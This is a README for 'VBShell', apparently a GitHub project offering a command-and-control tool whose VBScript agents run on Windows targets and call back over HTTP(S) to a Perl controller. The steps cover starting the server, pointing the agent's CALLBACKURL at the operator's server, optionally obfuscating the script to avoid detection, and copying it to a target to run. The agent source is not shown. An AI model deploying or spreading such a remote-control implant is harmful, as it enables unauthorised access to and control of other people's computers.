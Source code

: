 # VBShell

> A simple C2 written with VBScript agents

This is a toy C2 program with VBScript agents that run natively (i.e no additional installation is necessary) on windows and communicate via HTTP(S) to a Perl-based controller.

## Installation

1. Clone the repository and install the server dependencies (linux-only)

```bash
git clone https://github.com/lvmalware/vbshell
cd vbshell
cpanm --installdeps .
```

2. Run the server using [Morbo](https://mojolicious.org/)

```bash
morbo -l http://*:3000 -m production server.pl #you might want to change the port 3000 to something else
```

3. Edit the vbshell.vbs file and change the value of CALLBACKURL to your C2 server's url

```vbscript
CALLBACKURL = "http://my.server.tld"
```
4. Obfuscate the script somehow (optional)

5. Copy the vbshell.vbs file to your target and run it

6. Have fun

